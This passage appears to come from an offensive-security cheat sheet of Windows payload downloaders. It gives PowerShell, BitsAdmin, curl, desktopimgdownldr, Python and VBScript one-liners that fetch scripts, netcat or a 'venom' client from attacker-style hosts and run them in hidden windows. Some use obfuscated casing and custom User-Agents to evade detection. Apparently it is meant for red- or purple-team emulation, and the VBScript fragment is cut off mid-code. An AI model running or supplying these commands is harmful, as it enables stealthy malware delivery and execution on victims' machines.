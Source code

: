       [System.Net.WebRequest]::DefaultWebProxy;[System.Net.CredentialCache]::DefaultNetworkCredentials;$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://192.168.1.73/hello.ps1',$false);$h.send();iex $h.responseText
      
![powershell Additional Methods for Remote Download](http://i.cubeupload.com/tMG9I8.jpg)

<br /><br />
**BitsAdmin Downloaders**<br />

      powershell -w 1 Start-BitsTransfer -Source http://191.162.1.73//hello.ps1 -Destination $env:tmp\hello.ps1

      powershell -w 1 -C bitsadmin /transfer purpleteam /download /priority foreground http://192.168.1.73/hello.ps1 $env:tmp\hello.ps1 && powershell Start-Process -windowstyle hidden -FilePath '$env:tmp\hello.ps1'

      powershell -w 1 -C bitsadmin /transfer purpleteam /download /priority foreground /setcurrentheaders User-Agent:SSArt http://192.168.1.73/hello.ps1 $env:tmp\hello.ps1 && powershell Start-Process -windowstyle hidden -FilePath '%tmp%\hello.ps1'
      
      powershell -w 1 bitsadmin /create /dOwNlOaD ssart;start-sleep -seconds 1;bitsadmin /addfile ssart http://192.168.1.73/Hello.ps1 $env:tmp\Hello.ps1;start-sleep -seconds 1;bitsadmin /setcustomheaders ssart User-Agent:SSArt;start-sleep -seconds 1;bitsadmin /resume ssart;start-sleep -seconds 1;bitsadmin /complete ssart

<br /><br />
**Curl Downloaders**<br />

      cmd /R curl.exe -s http://192.168.1.73/hello.ps1 -o %tmp%\hello.ps1 -u pedro:s3cr3t

      cmd /R curl.exe -L -k -s https://raw.githubusercontent.com/r00t-3xp10it/venom/master/venom.sh -o %tmp%\venom.sh -u pedro:s3cr3t
      
![tt](https://user-images.githubusercontent.com/23490060/94851389-49e2d880-0420-11eb-8527-147299c70f92.png)

<br /><br />
**desktopimgdownldr Downloaders**<br />

      set "SYSTEMROOT=C:\Windows\Temp" && cmd /c desktopimgdownldr.exe /lockscreenurl:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1197/T1197.md /eventName:desktopimgdownldr

<br /><br />
**Python Downloaders**<br />

      python -c "from urllib import urlretrieve; urlretrieve('http://10.11.0.245/nc.exe', 'C:\\Temp\\nc.exe')"

      #!/usr/bin/python;import urllib2;u = urllib2.urlopen('http://192.168.1.73/hello.ps1');localFile = open('local_file', 'w');localFile.write(u.read());localFile.close()

<br /><br />
**VbScript Downloaders (VBS)**<br />

```
' Set your url settings and the saving options
strFileURL = "https://github.com/r00t-3xp10it/venom/blob/master/bin/Client.exe"
strHDLocation = "C:\Users\pedro\Desktop\Client.exe"

Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP")
objXMLHTTP.open "GET", strFileURL, false
objXMLHTTP.send()

If objXMLHTTP.Status = 200 Then
Set objADOStream = CreateObject("ADODB.Stream")
objADOStream.Open
objADOStream.Type = 1 'adTypeBinary

objADOStream.Write objXMLHTTP.ResponseBody
objADOStream.Position = 0    'Set the stream position to the start
```